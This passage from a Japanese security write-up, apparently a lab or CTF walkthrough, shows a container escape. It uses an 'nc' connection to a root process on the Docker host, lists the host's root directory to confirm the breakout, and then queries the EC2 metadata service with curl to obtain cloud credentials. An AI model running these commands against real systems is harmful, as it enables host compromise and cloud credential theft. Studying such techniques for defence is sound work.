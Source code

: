 <br>
　ホストマシン上でroot権限で動作しているプロセスに「`nc`」コマンドで接続します。

<div class="md-code" style="width:100%">

```
root@533e4e3fac01:/# nc 172.17.0.1 5600
```

</div>

<br>
　ルートディレクトリを確認してみると、コンテナ環境からホストマシンへ移動（脱獄）できていることが確認できました。  

<div class="md-code" style="width:100%">

```
ls -la /
total 12
dr-xr-xr-x  18 root root  257 May 12 19:48 .
dr-xr-xr-x  18 root root  257 May 12 19:48 ..
-rw-r--r--   1 root root    0 May 12 19:48 .autorelabel
lrwxrwxrwx   1 root root    7 May  5 18:07 bin -> usr/bin
dr-xr-xr-x   4 root root  317 May  5 18:08 boot
drwxr-xr-x  15 root root 2800 May 29 12:15 dev
drwxr-xr-x  80 root root 8192 May 29 12:15 etc
drwxr-xr-x   3 root root   22 May 12 19:48 home
lrwxrwxrwx   1 root root    7 May  5 18:07 lib -> usr/lib
lrwxrwxrwx   1 root root    9 May  5 18:07 lib64 -> usr/lib64
drwxr-xr-x   2 root root    6 May  5 18:07 local
drwxr-xr-x   2 root root    6 Apr  9  2019 media
drwxr-xr-x   2 root root    6 Apr  9  2019 mnt
drwxr-xr-x   4 root root   35 May 29 12:15 opt
dr-xr-xr-x 124 root root    0 May 29 12:15 proc
dr-xr-x---   3 root root  103 May 12 19:48 root
drwxr-xr-x  25 root root  900 May 29 12:16 run
lrwxrwxrwx   1 root root    8 May  5 18:07 sbin -> usr/sbin
drwxr-xr-x   2 root root    6 Apr  9  2019 srv
dr-xr-xr-x  13 root root    0 May 29 13:43 sys
drwxrwxrwt   8 root root  212 May 29 13:53 tmp
drwxr-xr-x  13 root root  155 May  5 18:07 usr
drwxr-xr-x  18 root root  254 May 29 12:15 var
```

</div>

#### クレデンシャルの取得

　メタデータサービス（`http://169.254.169.254/latest/meta-data/`）にアクセスしてクレデンシャルを取得します。

<div class="md-code" style="width:100%">

```
curl -m 5 http://169.254.169.254/latest/meta-data/

ami-id
ami-launch-index
ami-manifest-path
autoscaling/
block-device-mapping/
events/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
```